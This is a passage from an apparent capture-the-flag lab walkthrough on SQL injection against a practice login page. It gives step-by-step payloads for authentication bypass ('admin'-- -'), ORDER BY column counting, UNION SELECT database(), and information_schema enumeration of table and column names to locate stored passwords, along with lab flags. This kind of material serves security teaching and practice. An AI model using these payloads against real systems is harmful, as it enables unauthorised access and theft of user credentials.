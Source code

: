 -   Username: `[ADMIN_USERNAME]'-- -` (Replace `[ADMIN_USERNAME]` with the name you just found, e.g., `admin'-- -` if the username is `admin`).
-   Password: (Any input, e.g., `test`, or leave blank)

> Find the Flag: If successful, you'll get another flag confirming your targeted bypass.
>
> FLAG{AdminPasswordRetrieved}

Completion: You've successfully performed both generic and targeted SQL Injection login bypasses.

Task 2: Beyond the Horizon --- Extracting Database Secrets
========================================================

*In this task, we'll go beyond simple login bypass to systematically extract information from the database, culminating in finding the administrator's password and logging in legitimately.*

Module 2: Database Footprinting
-------------------------------

*Goal:** Determine the number of columns in the query and identify the current database name.*

1.  Return to Login: Go back to `[http://MACHINE_IP](http://machine_ip./)`[.](http://machine_ip./)
2.  Determine Column Count (using `ORDER BY`):

-   In the Username field, start by testing `admin' ORDER BY 1-- -` and try incrementing the number (e.g., `admin' ORDER BY 2-- -`, `admin' ORDER BY 3-- -`, etc.).
-   Observation: The login page will either give an error on the unknown number or function normally. An error indicates you've exceeded the number of columns. The last number *before* a number error is the correct column count.
-   Password: (Any input, e.g., `test`)

Identify Current Database (using `UNION SELECT`):

-   Now that you know the column count (let's assume it's `1` from the previous step), use the following payload:
-   Username: `admin' UNION SELECT database()-- -`
-   Password: (Any input)
-   Observation: You will get the database name within the page.

Module 3: Schema Mapping
------------------------

*Goal:** Find table names within the database and then column names within a specific table.*

Enumerate Tables:

-   Using the database name you found and the displayable column, inject the following:
-   Username: `admin' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'your_database_name'-- -` (Replace `'your_database_name'` with the actual database name you found, you may use the payload without `group_concat()`).
-   Password: (Any input)
-   Observation: Look for a table name that sounds like it might contain user information (e.g., `users`, `credentials`, `auth`).

Enumerate Columns:

-   Using the table name you just found (e.g., `users`) and your database name, inject the following:
-   Username: `admin' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'your_table_name'-- -` (Replace placeholders).
-   Password: (Any input)
-   Observation: Look for columns that sound like they store usernames and passwords (e.g., `username`, `password`, `user`, `pass`, `uname`, `pword`).

